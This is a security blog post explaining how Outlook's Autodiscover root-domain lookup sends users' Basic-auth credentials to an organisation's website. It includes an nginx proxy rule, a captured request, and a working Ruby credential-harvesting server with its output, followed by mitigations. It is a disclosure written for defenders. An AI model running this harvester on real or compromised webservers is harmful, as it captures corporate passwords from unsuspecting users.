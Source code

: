 ```yaml
---
layout: post
title: Obtaining Corporate Credentials via the Autodiscover Circus
description: Obtaining Corporate Credentials via the Autodiscover Circus
fullview: true
---
```


# Layout

It's fairly common for an organisation's website to exist outside the organisation's operational security policies. There's a common justification that for many organisations, the website is a marketing landing page and no sensitive data is ever involved. This in turn oftens leads to the prevance of, for example, shared hosting companies holding dozens of compromised Wordpress sites at a time.

We regularly see this when major businesses are compromised. This is unfortunate.

# Autodiscover noise

Anyone who has read the web access log on such a server has probably found themselve Googling what autodiscover.xml is. Here's an example from my own server, of something which may be rare if you have a few users. I grepped an larger organisation's log and found around 1200 hits per day.

```
020/09/02 05:54:40 [error] 385#385: *33613 open() "/var/www/html/autodiscover/autodiscover.xml" failed (2: No such file or directory),
    client: 1.2.3.4, server: lolware.net, request: "POST /autodiscover/autodiscover.xml HTTP/1.1", host: "lolware.net"
```
The reason for this is Microsoft's Autodiscover mechanism. And it's worth noting that while I'm going to talk about Outlook, many mail clients support autodiscover with varying rules and process.

Microsoft have a good technical brief here: [https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover](https://support.microsoft.com/en-au/help/3211279/outlook-2016-implementation-of-autodiscover).

As you can see, step six of the discovery processis "check the root domain". And that tends to be a step that's hit before the issue is settled, usually at step 7 or step 9. You can also see described the triggers and schedules for autodiscover.

A more practical, and digestable article for people not often working with Office 365 can be seen here: [https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/](https://practical365.com/exchange-server/fixing-autodiscover-root-domain-lookup-issues-mobile-devices/).

I quite like this article as the reference to the web hosting circus will be quite familiar to anyone who has had to support the average shared hosting environment. Those people will be familiar with how common hacked websites are.

# About that hacked webserver

The problem with the autodiscovery situation described is that I can put a redirect in my web server's nginx config:

```
        location /autodiscover/autodiscover.xml {
            proxy_set_header X-Forwarded-For $remote_addr;
            proxy_pass http://localhost:8089;
        }
```

And of course similar options exist for Apache. With this in place, here's a dump of a proxied connection:

```
[2020-09-02 06:09:09] ERROR `/autodiscover/autodiscover.xml' not found.
127.0.0.1 - - [02/Sep/2020:06:09:09 UTC] "POST /autodiscover/autodiscover.xml HTTP/1.0" 404 299
- -> /autodiscover/autodiscover.xml


POST /autodiscover/autodiscover.xml HTTP/1.0
X-Forwarded-For: 1.2.3.4
Host: localhost:8089
Connection: close
Content-Length: 361
Content-Type: text/xml
User-Agent: Outlook/16.0 (16.0.5023.1000; MSI; x86)
X-MS-WL: Outlook/1.0
X-TransactionID: {BA9B4E4B-B8AD-40F0-893A-6A2059ACE7A6}
Authorization: Basic ZXhhbXBsZXVzZXJAbG9sd2FyZS5uZXQ6aW1hZ2luZWFwYXNzd29yZA==

<?xml version="1.0" encoding="UTF-8"?><Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/mobilesync/requestschema/2006"><Request><EMailAddress>exampleuser@lolware.net</EMailAddress><AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/mobilesync/responseschema/2006</AcceptableResponseSchema></Request></Autodiscover>
```

What's crucial here is that as long as the server doesn't immediately reject the connection with a 404, the connecting client sends a discovery request that *includes an Authorization header*. The below code can take advantage of this:

```ruby
#!/usr/bin/env ruby
# Reference: https://www.igvita.com/2007/02/13/building-dynamic-webrick-servers-in-ruby/
require 'webrick'
require 'base64'

class Echo < WEBrick::HTTPServlet::AbstractServlet
  def do_POST(request, response)
    auth = request['Authorization']
    m = auth.match(/Basic (.+)/)
    if m
      puts "Credential Dump: " + Base64.decode64(m[1])
    end

    # Present a friendly normal "not here" to the connection
    response.status = 404
  end
end

server = WEBrick::HTTPServer.new(:Port => 8089)
server.mount "/", Echo
trap "INT" do server.shutdown end
server.start



```

# Secure Corporate Assets. Insecure website. User Passwords Dumped Anyway

Now obviously before I wrote this blog, I setup a temporary account and connected Outlook. Running the above code on my server started pumping this sort of content to the console.

```ruby
$ ./webrickprint.rb
[2020-09-02 06:41:19] INFO  WEBrick 1.4.2
[2020-09-02 06:41:19] INFO  ruby 2.6.5 (2019-10-01) [x86_64-linux]
[2020-09-02 06:41:19] INFO  WEBrick::HTTPServer#start: pid=323527 port=8089
Credential Dump: exampleuser@lolware.net:thiscouldbeyourpassword
```

# Mitigations

Microsoft's article discusses the *ExcludeHttpRedirect* registry key, but for most cases it's not a solution as it won't impact mobile users or anyone not using your exact version of Outlook on a corporate device.

The most approachable I've come up with is that a redirect can be put in place upstream if you use a service like Cloudflare. The following page rule takes this URL out of the hands of a web host by redirecting the connection to the correct place.


<amp-img
    src="/assets/images/autodiscoverpagerule.png"
    height="322"
    width="827"
    alt="Cloudflare autodiscover page rule"
    layout="responsive"
    ></amp-img>

The practical365 site states "the root domain lookup makes absolutely no sense to me" and any attempt to read a discussion on the issue will lead you to plenty of discussion of this as nonsense. Unfortunately for as long as this priority exists, this problem will.

